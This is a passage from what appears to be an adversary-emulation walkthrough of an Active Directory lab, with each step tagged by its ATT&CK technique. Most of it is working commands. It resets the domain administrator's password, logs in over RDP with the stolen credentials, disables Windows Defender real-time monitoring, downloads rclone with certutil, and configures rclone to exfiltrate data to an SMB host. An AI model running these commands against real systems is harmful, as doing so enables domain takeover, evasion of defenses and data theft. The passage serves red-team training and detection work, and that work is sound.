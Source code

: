 Great! We now have `AllExtendedRights` over all other users including domain administrator. This means that we can set its password which is exactly what we are going to do.

You will need to close the current PowerShell window and open it again from `mimikatz` to make sure the new group membership is activated. Don't forget to also re-import `a.dll`. After that, let's reset domain administrator's password.

**Step 2.9**
```PowerShell
[ITSERVER:PowerShell] Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset
```
ATT&CK Techniques: `T1098`


Done! We changed the password of the Domain Admin to the one of our choice and have compromised the domain.

## Part 3

With Domain Admin privileges we can now finally log into the 3rd server.

**Step 3.1**
```bash
[KALI:bash] xfreerdp /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert-ignore /dynamic-resolution
```
ATT&CK Techniques: `T1021.001` `T1078`

Let's now exfiltrate them over `rclone` similarly to Part 2.

But let's do one more quick additional step and disable Realtime Monitoring in Windows Defender on this system because it might complain about `rclone`:

**Step 3.2**
```PowerShell
[FINSERVER:PowerShell] Set-MpPreference -DisableRealtimeMonitoring 1
```
ATT&CK Techniques: `T1562.001`

We can now download the `rclone` executable:

**Step 3.3**
```PowerShell
[FINSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1105`

And create a config file `C:\Temp\r.conf`:

**Step 3.4**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `?`
